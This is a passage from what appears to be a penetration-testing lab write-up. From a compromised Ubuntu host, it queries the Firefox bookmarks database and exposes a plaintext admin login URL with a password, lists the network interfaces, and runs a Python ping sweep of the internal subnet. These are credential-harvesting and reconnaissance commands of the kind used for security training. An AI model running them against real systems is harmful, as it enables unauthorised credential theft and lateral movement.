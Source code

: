 ```
~$ privilege@ubuntu-virtual-machine:~$ sqlite3 ~/.mozilla/firefox/b2rri1qd.default-release/places.sqlite "SELECT * FROM moz_bookmarks;"

1|2|1|0|menu|1737028376389000|1737028407427000|root_______|1|1
2|2|1|0|menu|1737028376389000|1737028376683000|menu_______|1|3
3|2|1|1|toolbar|1737028376389000|1737028376773000|toolbar____|1|3
4|2|1|2|tags|1737028376389000|1737028376389000|tags________|1|1
5|2|1|3|unfiled|1737028376389000|1737028407427000|unfiled____|1|2
6|2|1|4|mobile|1737028376397000|1737028376662000|mobile______|1|2
7|2|2|0|Mozilla Firefox|1737028376683000|1737028376683000|2hcCSTYguEk2|0|1
8|1|3|7|0|Get Help|1737028376683000|1737028376683000|w8hhWMYvmHY6|0|1
9|1|4|7|1|Customize Firefox|1737028376683000|1737028376683000|uctFzas86dQw|0|1
10|1|5|7|2|Get Involved|1737028376683000|1737028376683000|2-X79YDQmgEh|0|1
11|1|6|7|3|About Us|1737028376683000|1737028376683000|GewYCw2g0FLJ|0|1
12|1|2|1|Ubuntu and Free Software links|1737028376683000|1737028376683000|MxAMPgqX16gZ|0|1
13|1|7|2|Ubuntu|||Qt4eHCSUhI0L|0|1
14|1|8|1|Ubuntu Wiki (community-edited website)|1737028376683000|1737028376683000|nbf_eTkjwhpvl|0|1
15|1|9|12|Make a Support Request to the Ubuntu Community|||ukdJ8dcfVTPm|0|1
16|1|10|13|Debian (Ubuntu is based on Debian)|||xg0MK5g3l2Zp|0|1
17|1|11|3|Getting Started|||Kt61Q_eV70GT|0|1
18|1|16|5|0|http://192.168.98.30/admin/index.php?user=john@child.warfare.corp&pass=User1a#$%6|||1737028407427000|173702966639000|1|7
```
### 🌐 Identifying Network Interfaces 

<p class="indent-paragraph">
The network interfaces were enumerated to determine which IPv4 subnets were reachable from the compromised host. By running <code>ip -4 a | grep inet</code><span class="codefix">,</span> the following addresses were identified, confirming the host bridges two distinct network segments:
</p>

```
~$ privilege@ubuntu-virtual-machine:~$ ip -4 a | grep inet

inet 127.0.0.1/8 scope host lo
inet 192.168.98.15/24 brd 192.168.98.255 scope global noprefixroute ens34
inet 192.168.80.10/24 brd 192.168.80.255 scope global noprefixroute ens32
```

<p class="indent-paragraph">
To quickly identify live hosts on the internal subnet <code>(192.168.98.0/24)</code><span class="codefix">,</span> a concise Python one-liner performed an ICMP sweep. The output revealed which systems were reachable and prioritized them for further exploration.
</p>

```
~$ privilege@ubuntu-virtual-machine:~$ python3 -c "import os; [os.system('ping -c 1 -W 1 192.168.98.%d >/dev/null 2>&1 && echo Host 192.168.98.%d is up' % (i, i)) for i in range(1, 255)]"

Host 192.168.98.2 is Up
Host 192.168.98.15 is Up
Host 192.168.98.30 is Up
Host 192.168.98.120 is Up
```
